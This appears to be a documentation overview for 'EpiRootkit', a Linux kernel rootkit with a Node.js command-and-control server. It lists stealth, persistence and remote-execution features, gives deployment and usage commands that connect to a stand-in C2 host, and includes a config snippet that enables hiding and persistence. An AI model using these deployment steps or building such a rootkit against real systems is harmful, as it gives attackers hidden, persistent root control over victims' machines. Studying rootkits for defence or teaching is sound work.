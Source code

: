 ```yaml
---
title: "EpiRootkit Overview"
description: "Linux kernel rootkit for Ubuntu 20.04 / kernel 5.4.0"
icon: "shield"
date: "2025-05-25T16:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 501
---
```


# EpiRootkit

Linux kernel rootkit implementation for Ubuntu 20.04 LTS (kernel 5.4.0).

## Features

- **C2 Communication**: TCP connection with domain support and XOR encryption
- **DNS Resolution**: Kernel-space domain name resolution
- **Remote Commands**: Execute shell commands with output capture
- **File Transfer**: Upload/download files between C2 and victim
- **Authentication**: SHA-512 password verification with rate limiting
- **XOR Encryption**: 32-byte key encryption for all C2 traffic
- **Sysfs Interface**: Linux-native configuration using octal permission system
- **Stealth**: Hide module from `lsmod` and files from directory listings
- **Persistence**: Multiple mechanisms to survive reboots

## Quick Demo

```bash
# 1. Build and deploy with XOR encryption enabled
cd rootkit && make
sudo ./deploy_rootkit.sh address=c2.example.com port=443

# 2. Start C2 server  
cd attacking_program && pnpm start

# 3. Use rootkit (all communication XOR encrypted)
auth Client-1 password
# SUCCESS: Authentication successful

exec Client-1 whoami
# Exit code: 0
# Output: root

status Client-1
# EpiRootkit Status: Version 1.0.0, Module Hidden: YES, Encryption: XOR

# 4. Configure via sysfs (octal permissions style)
sudo sh -c 'echo 7 > /sys/kernel/epirootkit/hide'  # Enable all hiding
cat /sys/kernel/epirootkit/hide                     # Check: 7
```

## Architecture

### Core Components
- **Network Layer**: Connection management and DNS resolution
- **Command System**: Authentication and remote execution
- **Stealth Features**: Module and file hiding
- **Persistence**: Boot survival mechanisms

### Communication Flow
```
C2 Server  ←→  Network/DNS  ←→  EpiRootkit  ←→  Linux Kernel
(Node.js)      (TCP/UDP)       (Module)        (System Calls)
```

## Technical Stack

- **Target**: Ubuntu 20.04 LTS, kernel 5.4.0, x86_64
- **Language**: C (kernel module) + Node.js (C2 server)
- **APIs**: ftrace, kretprobe, VFS, UDP sockets
- **Network**: TCP (C2) + UDP (DNS resolution)
- **Encryption**: XOR cipher with 32-byte hardcoded key
- **Authentication**: SHA-512 with rate limiting (5 attempts/60s)

## Configuration

Edit `rootkit/core/config.h`:
```c
#define C2_SERVER_ADDRESS "c2.example.com"  // Domain or IP
#define C2_SERVER_PORT 4444
#define ENABLE_PERSISTENCE 1       // Auto-install persistence
#define ENABLE_MODULE_HIDING 1     // Hide by default
#define ENABLE_FILE_HIDING 1       // Hide files with prefixes
```

## Documentation

- **[Deployment](./deployment.md)**: Build and load with domain support
- **[Connection](./connection-authentication.md)**: Network communication and XOR encryption
- **[XOR Encryption](./features/encryption.md)**: XOR encryption implementation
- **[DNS Resolution](./features/dns-resolution.md)**: Domain name resolution
- **[Commands](./features/command-execution.md)**: Remote command execution
- **[File Transfer](./features/file-transfer.md)**: Upload/download files
- **[Stealth](./features/hiding.md)**: Module and file hiding
- **[Persistence](./features/persistence.md)**: Boot survival mechanisms


